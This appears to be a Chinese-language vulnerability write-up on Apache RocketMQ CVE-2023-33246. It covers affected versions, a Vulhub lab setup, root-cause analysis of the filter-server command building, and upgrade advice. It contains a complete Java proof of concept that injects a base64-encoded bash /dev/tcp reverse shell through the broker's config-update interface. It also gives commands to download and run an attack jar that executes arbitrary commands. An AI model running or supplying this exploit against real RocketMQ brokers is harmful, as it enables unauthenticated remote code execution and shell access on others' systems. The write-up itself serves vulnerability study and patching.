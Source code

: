 # Apache RocketMQ Broker 远程命令执行漏洞 CVE-2023-33246

## 漏洞描述

Apache RocketMQ 是一个分布式消息平台。

Apache RocketMQ RocketMQ 5.1.0 及以下版本，在一定条件下存在远程命令执行风险。RocketMQ 的 NameServer、Broker、Controller 等多个组件暴露在外网且缺乏权限验证，攻击者可以利用该漏洞利用更新配置功能以 RocketMQ 运行的系统用户身份执行命令。此外，攻击者可以通过伪造 RocketMQ 协议内容来达到同样的效果。

参考链接：

- https://lists.apache.org/thread/1s8j2c8kogthtpv3060yddk03zq0pxyp
- https://github.com/I5N0rth/CVE-2023-33246
- https://github.com/Le1a/CVE-2023-33246
- https://paper.seebug.org/2081/
- https://xz.aliyun.com/news/12137
- https://xz.aliyun.com/news/12035

## 漏洞影响

```
Apache RocketMQ <= 5.1.0
Apache RocketMQ <= 4.9.5
```

## 网络测绘

```
title="RocketMQ"
```

## 环境搭建

Vulhub 执行如下命令启动一个 RocketMQ broker 5.1.0:：

```
docker compose up -d
```

环境启动后，RocketMQ 的 Broker 将会监听在 10911 端口。

## 漏洞复现

使用 `IDEA` 或 `Eclipse` 等 `IDE` 新建一个 `Maven` 项目，导入依赖：

```java
<dependencies>
    <!-- https://mvnrepository.com/artifact/org.apache.rocketmq/rocketmq-tools -->
    <dependency>
        <groupId>org.apache.rocketmq</groupId>
        <artifactId>rocketmq-tools</artifactId>
        <version>5.1.0</version>
    </dependency>
</dependencies>
```

PoC 如下：

```java
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;

import java.util.Base64;
import java.util.Properties;

public class Main {
    private static String getCmd(String ip, String port) {
        String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }

    public static void main(String[] args) throws Exception {
        String targetHost = "your-ip";
        String targetPort = "10911";

        String shellHost = "your-ip";
        String shellPort = "12345";

        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }
}
```

在控制台成功输出新的配置后，请等待 30 秒左右，将会收到反连请求。

![image-20230605095851218](images/image-20230605095851218.png)

---
**2025.02.10 更新**

该漏洞存在于 RocketMQ 的 Broker 组件的配置更新功能中。Broker 组件在配置更新接口中缺乏适当的身份认证和输入验证，攻击者可以修改配置值。

这个漏洞之所以特别危险，是因为 RocketMQ 的 filter server 机制。RocketMQ 每 30 秒会执行一次 filter server，执行方式是通过运行 shell 命令。这个命令是通过字符串拼接构造的，其中包含了来自配置中的 `rocketmqHome` 值。由于攻击者可以控制这个配置值，且这个值在构造命令时没有经过适当的过滤，因此导致了命令注入漏洞。

我们可以使用 Vulhub 项目 [rocketmq-attack](https://github.com/vulhub/rocketmq-attack) 来复现漏洞并执行任意命令：

```shell
wget https://github.com/vulhub/rocketmq-attack/releases/download/1.0/rocketmq-attack-1.0-SNAPSHOT.jar
java -jar rocketmq-attack-1.0-SNAPSHOT.jar AttackBroker --target your-ip:10911 --cmd "touch /tmp/awesome_poc"
```

![](images/Apache%20RocketMQ%20Broker%20远程命令执行漏洞%20CVE-2023-33246/image-20250210112146119.png)

等待最多 30 秒后，可见 `touch /tmp/success` 命令已成功执行：

![](images/Apache%20RocketMQ%20Broker%20远程命令执行漏洞%20CVE-2023-33246/image-20250210112249871.png)

## 漏洞分析

PoC 对 `filterServerNums` 属性和 `rocketmqHome` 属性进行了修改。

为什么要修改 `filterServerNums` 属性：如果配置的 `filterServerNums` 为 0，计算得出的 `more` 也会是 0，因此无法进入 `callShell` 方法执行命令。

```
public void createFilterServer() {
    int more =
        this.brokerController.getBrokerConfig().getFilterServerNums() -
        this.filterServerTable.size();
    String cmd = this.buildStartCommand();
    for (int i = 0; i < more; i++) {
        FilterServerUtil.callShell(cmd, log);
    }
}

public static void callShell(final String shellString, final Logger log) {
    Process process = null;
    try {
        String[] cmdArray = splitShellString(shellString);
        process = Runtime.getRuntime().exec(cmdArray);
        process.waitFor();
        log.info("CallShell: <{}> OK", shellString);
    } catch (Throwable e) {
        log.error("CallShell: readLine IOException, {}", shellString, e);
    } finally {
        if (null != process)
            process.destroy();
    }
}
```

为什么要修改 `rocketmqHome` 属性：在构建命令的时候，最终会调用 `splitShellString` 方法按照空格对参数进行分割，所以不可以是 `NamesrvAddr` 参数，只能是开头的 `rocketmqHome` 参数，但是由于参数分割规则，所以需要更严格的命令和巧妙的技巧才可以执行。

```
private String buildStartCommand() {
    String config = "";
    if (BrokerStartup.CONFIG_FILE_HELPER.getFile() != null) {
        config = String.format("-c %s",
        BrokerStartup.CONFIG_FILE_HELPER.getFile());
    }
    if (this.brokerController.getBrokerConfig().getNamesrvAddr() != null) {
        config += String.format(" -n %s",
        this.brokerController.getBrokerConfig().getNamesrvAddr());
    }
    if (NetworkUtil.isWindowsPlatform()) {
        return String.format("start /b %s\\bin\\mqfiltersrv.exe %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    } else {
        return String.format("sh %s/bin/startfsrv.sh %s",
        this.brokerController.getBrokerConfig().getRocketmqHome(),
        config);
    }
}
```

## 漏洞修复

目前官方已发布安全修复更新，受影响用户可以升级到 Apache RocketMQ 5.1.1 或者 4.9.6。 https://rocketmq.apache.org/download/

